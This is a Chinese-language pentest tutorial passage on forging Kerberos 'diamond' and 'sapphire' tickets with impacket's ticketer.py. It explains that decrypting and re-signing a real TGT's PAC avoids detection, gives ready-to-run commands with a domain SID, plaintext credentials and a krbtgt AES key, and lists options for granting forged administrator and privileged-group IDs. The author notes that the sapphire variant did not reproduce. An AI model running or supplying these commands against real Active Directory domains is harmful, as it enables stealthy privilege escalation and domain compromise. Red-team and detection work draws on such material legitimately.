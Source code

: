 **钻石票据伪造**

由于金票据和银票据没有合法的KRB\_AS\_REQ或KRB\_TGS\_REG请求，所以会被发现。而钻石票据会正常请求票据，然后解密票据的PAC，修改并重新加密。从而增加了隐蔽性。

aesKey是krbtgt的密钥，注意一般aesKey都是256位加密的，这个得看DC的算法。不过128也建议存一份吧

\-user-id和-groups是可选的，如果不选分别会默认500和513, 512, 520, 518, 519

\-user和-password是要真实去发起TGT请求的用户的账密，可使用hash。这个用户实际上是什么权限不重要

```plain
py -3 ticketer.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -user-id 1500 -groups 12,513,518,519,520 qqq
```

[![](assets/1702372846-b78301fc6ec071b4e3fdc9334b8f8fd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123722-afd66ad0-6bb1-1.png)

**蓝宝石票据伪造**

钻石票据是伪造的PAC特权，但是蓝宝石票据是将真实高权限用户的PAC替换到低权限的TGT中，从而成为目前最难检测的手法

不过该技术还是impacket的一个分支，正在等待合并。

注意，因脚本问题，未复现成功

```plain
py -3 ticketer_imper.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -impersonate administrator qqq
```

参考：

[https://github.com/SecureAuthCorp/impacket/pull/1411](https://github.com/SecureAuthCorp/impacket/pull/1411)

#### 常用选项

```plain
-spn SPN 银票用，一般都是某个服务器的cifs或DC的ldap服务，mssql啥的也可以考虑
-request 要求请求TGT，这个脚本里可以理解为钻石票据伪造。必须同时存在-user和-password
-aesKey hex key 用来签名票据的krbtgt的AES加密的密码
-nthash NTHASH  用来签名票据的krbtgt的NTLM加密的密码
-keytab KEYTAB 请求文件内容中的多个银票据
-duration DURATION 修改票据的失效时间
-user-id USER_ID 指定伪造PAC的用户权限ID,默认是500 管理员
-groups GROUPS 指定伪造PAC的组权限ID，默认是513, 512, 520, 518, 519这五个组
```
